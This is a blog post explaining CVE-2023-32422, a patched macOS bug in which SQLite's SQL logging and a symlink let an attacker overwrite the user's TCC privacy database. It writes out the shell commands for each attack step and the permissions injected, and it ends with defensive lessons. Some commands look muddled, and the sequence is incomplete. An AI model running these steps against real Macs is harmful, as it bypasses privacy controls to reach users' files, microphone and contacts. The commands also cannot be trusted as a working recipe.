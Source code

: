 ```yaml
---
layout: post
date: 2025-02-22 20:00:00 +0300
title: "Uncovering CVE-2023-32422: How SQLite Logging Exposed macOS Privacy Protections"
description: "An in-depth look at how a forgotten SQLite logging feature in macOS led to a TCC database overwrite, granting attackers full control over macOS privacy settings."
tags: [SQLite, CVE-2023-32422, macOS, TCC.db, Security]
categories: Vulnerabilities
---
```


## Introduction

macOS has long been praised for its security measures, but sometimes overlooked debugging features can open critical vulnerabilities. One such case is **CVE-2023-32422**, which allowed attackers to exploit **SQLite’s SQL logging feature** (`SQLITE_SQLLOG_DIR`) to overwrite system-protected files, including `TCC.db`, a database responsible for macOS privacy controls.

This post explores how **Apple's forgotten debug functionality** led to a **full Transparency, Consent, and Control (TCC) bypass**, allowing unauthorized applications to gain Full Disk Access, read contacts, access the microphone, and more.

---

## **How the Exploit Worked**

### **1️⃣ Enabling SQL Logging to a Controlled Directory**

SQLite has a **documented logging feature** that logs SQL queries and **creates full database copies** when `SQLITE_SQLLOG_DIR` is set. This behavior is described in the [SQLite source file](https://www.sqlite.org/src/doc/trunk/src/test_sqllog.c), which explains how log files are generated. Attackers leveraged this by setting:

```sh
export SQLITE_SQLLOG_DIR=~/pwned/
open -a Music
```

✅ **Effect:** The Music app, which uses SQLite, **automatically saved a copy of its database** to `~/pwned/`, allowing attackers to manipulate it freely.

---

### **2️⃣ Preparing and Modifying the Logged Database**

After obtaining the database copy, the attacker **prepared a modified TCC.db** by merging it with the Music app’s `Cache.db` and injecting unauthorized permissions:

```sh
echo "[+] Preparing TCC.db"
echo "$TCCDB_SQL" | sqlite3 pwned/TCC.db
sqlite3 "~/Library/Caches/com.apple.Music/Cache.db" ".dump" | sqlite3 pwned/TCC.db
echo "[+] Overwriting target"
cat pwned/TCC.db > "~/Library/Caches/com.apple.Music/Cache.db"
```

✅ **Effect:** The attacker created a **new malicious TCC.db**, preserving expected database structures while injecting unauthorized entries.

✅ **Injected TCC Permissions:**

✔️ **Full access to user documents** (`kTCCServiceSystemPolicyDocumentsFolder`)

✔️ **Permission to modify system administrator files** (`kTCCServiceSystemPolicySysAdminFiles`)

✔️ **Authorization to send Apple Events to Finder** (`kTCCServiceAppleEvents`)

---

### **3️⃣ Overwriting the User’s TCC Database via Symlink**

Since SQLite **reuses filenames**, attackers created a **symlink to the user’s TCC database**:

```sh
ln -s ~/Library/Application\ Support/com.apple.TCC/TCC.db ~/pwned/sqllog_N.db
```

✅ **Effect:** When the Music app logged new queries, **SQLite unknowingly overwrote the user’s `TCC.db` with the attacker's version**.

---

### **4️⃣ Restarting TCC to Apply the Changes**

To force macOS to recognize the modified database, attackers restarted the TCC service:

```sh
launchctl stop com.apple.tccd
launchctl start com.apple.tccd
```

✅ **Effect:** The **maliciously modified TCC database** was now active, allowing **unauthorized access to protected user data**.

---

## **Apple’s Response and the Patch**

After **180 days** of investigation, Apple issued a patch that:
✔️ **Disabled `SQLITE_SQLLOG_DIR` in production builds.**

📌 **Takeaway:** This vulnerability proves how overlooked debugging features can become serious security risks.

---

## **Final Thoughts: The Bigger Picture**

This exploit underscores several critical security lessons:

✔️ **Leaving debugging features enabled in production software increases the attack surface.**

✔️ **Attackers can chain environment variable manipulation, symlink attacks, and database overwrites to escalate privileges.**

✔️ **While Apple patched `SQLITE_SQLLOG_DIR`, similar environment variable-based exploits or misconfigurations could still exist in other system apps.**

### **💡 Key Takeaways**

✔️ **Always review the impact of debugging features before shipping software.**

✔️ **Monitor environment variables that influence sensitive system operations.**

✔️ **Continuously test for insecure file-write operations, especially in apps with Full Disk Access.**

🚀 **As macOS security evolves, so do the attack vectors.** Stay informed, test regularly, and never assume a single patch fixes everything. The next big vulnerability might be just around the corner. 🔍🛡️
